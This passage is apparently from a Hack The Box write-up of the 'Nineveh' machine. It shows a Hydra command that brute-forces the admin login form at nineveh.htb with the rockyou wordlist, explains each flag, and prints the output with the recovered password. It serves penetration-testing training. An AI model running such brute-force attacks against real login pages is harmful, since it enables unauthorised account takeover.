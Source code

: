 ![](../images/max/767/1*lOkjCn4Qv8RSqRLSqCkFPw.png)

Then run hydra.

```text
hydra -l 'admin' -P /usr/share/wordlists/rockyou.txt nineveh.htb http-post-form "/department/login.php:username=^USER^&password=^PASS^&Login=Login:Invalid Password!"
```

* **-l:** specifies the username to be admin.
* **-P:** specifies the file that contains the passwords.
* **http-post-form:** specifies an HTTP POST request.
* **“….”:** the content in the double quotes specifies the username/password parameters to be tested and the failed login message.

We get back the following result.

```text
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2019-12-28 12:14:17
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://nineveh.htb:80/department/login.php:username=^USER^&password=^PASS^&Login=Login:Invalid Password!
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[STATUS] 2421.00 tries/min, 2421 tries in 00:01h, 14341978 to do in 98:44h, 16 active
[VERBOSE] Page redirected to http://nineveh.htb/department/manage.php
[80][http-post-form] host: nineveh.htb   login: admin   password: 1q2w3e4r5t
[STATUS] attack finished for nineveh.htb (waiting for children to complete tests)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2019-12-28 12:16:12
```
